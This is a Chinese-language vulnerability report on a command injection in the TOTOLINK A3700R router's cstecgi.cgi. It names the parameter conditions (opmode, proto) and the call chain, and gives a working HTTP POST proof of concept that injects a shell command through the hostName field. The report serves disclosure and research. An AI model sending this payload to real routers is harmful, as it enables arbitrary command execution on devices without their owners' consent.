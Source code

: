 

### **概述**：
影响设备：totolink A3700R

影响固件版本：V9.1.2u.6165_20211012

影响：命令注入，可以导致任意命令执行

固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>

报送邮箱 : zwx918569613@gmail.com


![](Pasted%20image%2020231022165035.png)

### **漏洞**：

该漏洞位于`cstecgi.cgi`中的函数`FUN_0042455c`
漏洞点在于没有对传入参数`hostName`进行过滤，存在命令注入，通过合适的构造，可以导致任意命令执行

![](Pasted%20image%2020231024194653.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
该命令注入漏洞通过`setOpModeCfg`触发
通过对`FUN_0042455c`函数的交叉引用查找，我们可以得出函数调用链
即`FUN_0042dd5c->FUN_00425770->FUN_0042455c`
其中为了进入`FUN_00425770`，我们需要控制参数`opmode`的值不为`gw`
其次在函数`FUN_0042455c`中，我们需要控制参数`proto`为非`0,3,4,6`的值才能确保能触发命令注入漏洞
控制参数`hostName`，合理构造可以导致任意命令执行

### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 88
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{"topicurl":"setting/setOpModeCfg","proto":"5","opmode":"rpt","hostName":"1';ls \n"}


~~~

### **影响效果**：


![](Pasted%20image%2020231024201053.png)